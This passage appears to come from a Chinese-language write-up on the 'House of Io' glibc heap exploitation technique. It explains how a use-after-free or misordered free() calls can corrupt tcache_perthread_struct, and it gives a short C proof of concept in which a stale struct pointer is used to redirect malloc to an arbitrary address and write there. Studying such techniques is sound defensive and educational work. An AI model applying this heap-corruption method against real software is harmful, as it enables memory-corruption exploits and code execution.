 此外，攻击者还可以利用其他两种极端情况。 这些可以被认为是相对任意写入的特例。

a）对结构体指针项进行释放后使用（UAF）解引用并写入，偏移量为8个字节–这将解引用`key`字段，指向`tcache_perthread_struct`对象，然后在管理结构体顶部进行写入。

b）对`free()`的一组顺序不当的调用，使得结构体先被`free()`，然后a）里的指针被`free()`。这会将`tcache_perthread_struct`放置在对应于大小0x290的tcache链表上。

我们现在演示House of Io的变体：

### <a class="reference-link" name="UAF"></a>UAF

```
unsigned long victim = 1;

typedef struct hi `{`
        char *a;
        char *b;
`}`;

int main() 

`{`

        long int *a, *b, *z;
        struct hi *ptr = malloc(sizeof(ptr));


        ptr-&gt;a = malloc(10);
        ptr-&gt;b = malloc(10);
        free(ptr);

        //This is a UAF on a struct entry
        a = ptr-&gt;b;

        //set the count to n &gt; 1
        *a = 2;

        //get a pointer to target tc_idx
        //this is deterministic because tcache 
        //metadata chunk is an instance of its type. 
        z = (char *)a + 0x80;

        //set the list head to victim 
        //we could also spray this address  
        *z = &amp;victim; 

        //get the victim
        b = malloc(0x15);

        //set value at victim 
        *b = 2; 

        printf("%d\n", victim);
        return 0;
`}`
```
